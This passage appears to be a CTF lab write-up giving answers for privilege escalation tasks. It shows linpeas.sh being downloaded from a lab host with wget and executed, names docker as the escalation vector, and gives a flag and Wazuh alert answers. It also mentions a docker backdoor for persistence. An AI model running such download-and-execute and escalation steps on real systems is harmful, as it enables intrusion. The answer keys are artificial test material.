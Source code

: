 <br>

<h2>Task 9 . Privilege Eacalation Recon</h2>

```bash
:~# python3 -m http.server
```

```bash
grafana-admin@reversegear:/tmp$ wget http://10.10.69.48:8000/linpeas.sh
...
linpeas.sh                        100%[==========================================================>] 227.91K  --.-KB/s    in 0.001s  
...
grafana-admin@reversegear:/tmp$ chmod +x linpeas.sh
grafana-admin@reversegear:/tmp$ ./linpeas.sh
```

<p>9.1. What tool does linPEAS detect as having a potential escalation vector?<br>
<code>docker</code></p>

<p>9.2. Is an alert triggered by Wazuh when linPEAS is added to the system, if so what its severity?<br>
<code>5</code></p>

<br>

<h2>Task 10 . Performing Privilege Escalation</h2>

<p>10.1. Perform the privilege escalation and grab the flag in /root/<br>
<code>{SNEAK_ATTACK_CRITICAL}</code></p>

<br>

<h2>Task 11 . Establishing Persistence</h2>

<p>11.1. Abuse docker to establish a backdoor on the host system<br>
<code>No answer needed</code></p>

<br>

<h2>Task 12 . Conclusion</h2>

<p>12.1. Abuse docker to establish a backdoor on the host system<br>
<code>No answer needed</code></p>




![image](https://github.com/user-attachments/assets/62c5e1b3-f3a0-461b-aab2-0eae02513023)

![image](https://github.com/user-attachments/assets/e2388928-1451-42f5-a9af-498c6ef52ab8)



<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| June 24, 2025     | 414      |     192nd    |      6ᵗʰ     |     264ᵗʰ   |     6ᵗʰ    |  109,843 |    799    |     63    |
